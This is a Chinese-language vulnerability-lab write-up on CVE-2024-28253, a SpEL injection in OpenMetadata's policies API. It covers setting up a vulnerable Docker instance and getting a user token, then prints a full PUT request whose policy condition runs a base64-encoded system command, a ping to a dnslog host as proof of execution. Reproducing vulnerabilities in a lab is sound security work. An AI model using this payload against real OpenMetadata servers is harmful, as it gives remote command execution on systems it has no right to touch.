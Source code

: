 ## OpenMetadata /api/v1/policies SpEL Injection CVE-2024-28253

​	OpenMetadata是一个统一的发现、可观察和治理平台，由中央元数据存储库、深入的沿袭和无缝团队协作提供支持。它是发展最快的开源项目之一，拥有充满活力的社区，并被各行业垂直领域的众多公司采用。OpenMetadata 基于开放元数据标准和 API，支持各种数据服务的连接器，支持端到端元数据管理，让您可以自由地释放数据资产的价值。

​	对于有身份验证的用户可以用通过访问api接口**PUT / POST APIS for /api/v1/policies.**进行表达式注入，进而得到系统权限。

**Affected versions ：**<1.3.1

## 漏洞环境



执行如下命令启动一个OpenMetadata-v1.2.3-web：

```
docker compose -f docker-compose-postgres.yml up --detach
```



环境启动后，访问`http://your-ip:8585`即可跳转到OpenMetadata登录页面

![](https://github.com/Shelter1234/VulneraLab/raw/main/OpenMetadata/CVE-2024-28255/1.png)

## 漏洞复现

1，注册一个新用户

![image-20240508112005258](./2.png)

登录后台 得到认证jwt

![image-20240508112322427](./3.png)

```json
{
    "accessToken":"eyJraWQiOiJHYjM4OWEtOWY3Ni1nZGpzLWE5MmotMDI0MmJrOTQzNTYiLCJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJvcGVuLW1ldGFkYXRhLm9yZyIsInN1YiI6InNoZWx0ZXIiLCJlbWFpbCI6InNoZWx0ZXJAc2hlbHRlci5jb20iLCJpc0JvdCI6ZmFsc2UsInRva2VuVHlwZSI6Ik9NX1VTRVIiLCJpYXQiOjE3MTUxMzg0NTcsImV4cCI6MTcxNTE0MjA1N30.I_jLHBwTadbSJBcVl45Z9r6tUio00exoUbqjnNSjl2yQGE9-TTWnX7YDAw8sGpjIJQvpRradZgO1siALJvuFCVqiCvrlsE9ol2DaUhd2G5F5w-F57iPJdvUybmx-djVfL85iOrty2CCfwOy2ev03EgvQngcglMRYe3VTa_P9yg2JtsX85yJHwA9SJywO_9IDsBsBZUd9izbRfm8k2Aqb7YGpChWQKUeKymvqfWrcY0LJDY2BFZ3ISw6stI8xhWT-GuCaVTolUdSbpzB5YR-LdYJzDpjoXqTwWSN4VoLT3UDoEOJfUJQKwlU1nnVAJdAlTrH9XfaQhnploVk9HEKIiA",
    "refreshToken":"20b22fa3-28a0-40c5-b001-b35f0412859e",
    "tokenType":"Bearer",
    "expiryDuration":1715142057460
}
```

2,添加Authorization认证头，发起如下请求执行系统命令，将执行命令ping  xxx.dnslog.cn 转为base64编码 替换下方payload的base64编码

```
PUT /api/v1/policies HTTP/1.1
Host: 192.168.160.128:8585
Authorization: Bearer eyJraWQiOiJHYjM4OWEtOWY3Ni1nZGpzLWE5MmotMDI0MmJrOTQzNTYiLCJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJvcGVuLW1ldGFkYXRhLm9yZyIsInN1YiI6InNoZWx0ZXIiLCJlbWFpbCI6InNoZWx0ZXJAc2hlbHRlci5jb20iLCJpc0JvdCI6ZmFsc2UsInRva2VuVHlwZSI6Ik9NX1VTRVIiLCJpYXQiOjE3MTUxMzg0NTcsImV4cCI6MTcxNTE0MjA1N30.I_jLHBwTadbSJBcVl45Z9r6tUio00exoUbqjnNSjl2yQGE9-TTWnX7YDAw8sGpjIJQvpRradZgO1siALJvuFCVqiCvrlsE9ol2DaUhd2G5F5w-F57iPJdvUybmx-djVfL85iOrty2CCfwOy2ev03EgvQngcglMRYe3VTa_P9yg2JtsX85yJHwA9SJywO_9IDsBsBZUd9izbRfm8k2Aqb7YGpChWQKUeKymvqfWrcY0LJDY2BFZ3ISw6stI8xhWT-GuCaVTolUdSbpzB5YR-LdYJzDpjoXqTwWSN4VoLT3UDoEOJfUJQKwlU1nnVAJdAlTrH9XfaQhnploVk9HEKIiA
Content-Type: application/json
Content-Length: 369

{"name":"TeamOnlyPolicy","rules":[{"name":"TeamOnlyPolicy-Rule","description":"Deny all the operations on all the resources for all outside the team hierarchy..","effect":"deny","operations":["All"],"resources":["All"],"condition":"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(T(java.util.Base64).getDecoder().decode('cGluZyBraW03N2suZG5zbG9nLmNu')))"}]}
```

![image-20240508114606827](./4.png)



dnslog验证

![image-20240508114639866](./5.png)